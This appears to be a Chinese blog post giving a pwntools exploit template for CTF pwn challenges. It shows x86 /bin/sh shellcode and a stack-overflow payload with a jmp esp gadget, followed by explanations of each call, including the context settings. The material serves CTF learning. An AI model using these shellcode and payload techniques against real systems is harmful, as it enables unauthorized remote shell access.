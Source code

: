 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      Pwn脚本               # 标题 
subtitle:   pwn脚本 #副标题
date:       2018-10-03             # 时间
author:     XT                      # 作者
header-img: img/post-bg-alibaba.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - pwn
---
```


# pwn脚本模板
>这是**pwn脚本模板**的简介



## 1. 大致框架

官网的一个简单样例

```python
from pwn import *
context(arch = 'i386', os = 'linux') #64位系统的为x86-64
r = remote('exploitme.example.com', 31337)
# EXPLOIT CODE GOES HERE
r.send(asm(shellcraft.sh()))
r.interactive()
```


自己测试的

```python

from pwn import *
sh = process('./boverflow')
context(arch = 'i386', os = 'linux')
context.terminal = ['tmux', 'split', '-h']#调试
r = remote('127.0.0.1', 9999)
shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode_x86 += "\x0b\xcd\x80"
sub_esp_jmp = asm('sub esp, 0x28;jmp esp')
jmp_esp = 0x08048504
payload = shellcode_x86 + (0x20 - len(shellcode_x86)) * 'b'+ 'bbbb' + p32(jmp_esp) + sub_esp_jmp
#print payload
r.sendline(payload)
r.interactive()

```

基本上仿造这个格式就可以写exp了。

```
from pwn import *
```

用来导入pwntools模块

```
context(arch = 'i386', os = 'linux')
```

设置目标机的信息

```
r = remote('exploitme.example.com', 31337)
```

用来建立一个远程连接，url或者ip作为地址，然后指明端口

这里也可以仅仅使用本地文件,调试时方便:

```
r = process("./boverflow")
```

boverflow即为文件名,这使得改变远程和本地十分方便.

```
asm(shellcraft.sh())
```

asm()函数接收一个字符串作为参数，得到汇编码的机器代码。 
 比如

```
>>> asm('mov eax, 0')
'\xb8\x00\x00\x00\x00'12
```

shellcraft模块是shellcode的模块，包含一些生成shellcode的函数。

其中的子模块声明架构，比如shellcraft.arm 是ARM架构的，shellcraft.amd64是AMD64架构，shellcraft.i386是Intel 80386架构的，以及有一个shellcraft.common是所有架构通用的。

而这里的shellcraft.sh()则是执行/bin/sh的shellcode了

r.send()将shellcode发送到远程连接

最后，

```
r.interactive()
```

将控制权交给用户，这样就可以使用打开的shell了



## Context设置

`context`是pwntools用来设置环境的功能。在很多时候，由于二进制文件的情况不同，我们可能需要进行一些环境设置才能够正常运行exp，比如有一些需要进行汇编，但是32的汇编和64的汇编不同，如果不设置context会导致一些问题。

一般来说我们设置context只需要简单的一句话:

```
context(os='linux', arch='amd64', log_level='debug')
```

这句话的意思是： 

1. os设置系统为linux系统，在完成ctf题目的时候，大多数pwn题目的系统都是linux 
2. arch设置架构为amd64，可以简单的认为设置为64位的模式，对应的32位模式是’i386’ 
3. log_level设置日志输出的等级为debug，这句话在调试的时候一般会设置，这样pwntools会将完整的io过程都打印下来，使得调试更加方便，可以避免在完成CTF题目时出现一些和IO相关的错误。
